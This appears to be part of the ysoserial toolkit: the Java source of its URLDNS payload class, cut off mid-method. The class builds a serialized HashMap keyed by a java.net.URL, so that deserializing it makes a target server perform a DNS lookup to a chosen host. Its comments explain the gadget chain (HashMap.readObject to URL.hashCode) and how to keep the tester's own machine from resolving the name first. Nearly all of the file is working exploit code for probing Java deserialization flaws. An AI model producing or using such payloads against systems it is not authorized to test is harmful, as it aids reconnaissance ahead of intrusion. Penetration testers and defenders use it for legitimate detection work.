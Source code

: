 ```java
 *   standard JDK classes.
 *
 *   The Java URL class has an interesting property on its equals and
 *   hashCode methods. The URL class will, as a side effect, do a DNS lookup
 *   during a comparison (either equals or hashCode).
 *
 *   As part of deserialization, HashMap calls hashCode on each key that it
 *   deserializes, so using a Java URL object as a serialized key allows
 *   it to trigger a DNS lookup.
 *
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
 *
 *
 */
@SuppressWarnings({ "rawtypes", "unchecked" })
@PayloadTest(skip = "true")
@Dependencies()
@Authors({ Authors.GEBL })
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        /**
         * <p>This instance of URLStreamHandler is used to avoid any DNS resolution while creating the URL instance.
         * DNS resolution is used for vulnerability detection. It is important not to probe the given URL prior
         * using the serialized object.</p>
         *
         * <b>Potential false negative:</b>
         * <p>If the DNS name is resolved first from the tester computer, the targeted server might get a cache hit on the
         * second resolution.</p>
         */
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
```